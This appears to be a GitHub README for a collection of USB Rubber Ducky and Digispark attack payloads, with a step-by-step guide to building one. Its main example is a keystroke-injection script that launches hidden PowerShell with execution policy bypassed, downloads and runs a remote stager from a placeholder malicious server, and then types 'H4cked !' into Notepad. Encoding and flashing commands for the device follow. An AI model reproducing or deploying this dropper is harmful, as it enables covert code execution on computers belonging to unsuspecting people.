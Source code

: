 # Miscellaneous payload for rubberducky

### Here, you can found :

- Release of tools (duck2spark & USB-Rubber-Ducky)
- sample of script stager
- sample of payload dropper (rubber ducky)
- Other things (logger, etc ...)

Of course, for linux and windows !


### This repo include this 2 github project (keeped because they disappeared)

https://github.com/hak5darren/USB-Rubber-Ducky
https://github.com/mame82/duck2spark




## How work ? (tutorial in https://k-lfa.info/digispark-hacking/)

1. Make your rubberduck payload (in dropper context)

```
GUI r
DELAY 300
STRING powershell.exe -exec bypass -w hidden -nop -c "iex(New-Object System.Net.WebClient).DownloadString('https://maliciousserver/stager.ps1')"
DELAY 800
ENTER
DELAY 700
GUI r
DELAY 200
STRING notepad
DELAY 300
ENTER
DELAY 100
STRING H4cked !
DELAY 200
GUI l
```

2. Encode your payload (with duckencoder) (Don't forget the keyboard context ! qwerty or azerty)

```
java -jar duckencoder.jar -i duckpayload.txt -o ducky.bin -l fr
```

3. Translate your payload in C++ code

```
python duck2spark/duck2spark.py -i ducky.bin -l 1 -o Payload.bin
```

4. Copy / Paste your C++ code in Arduino IDE and Upload this in digispark !

Enjoy

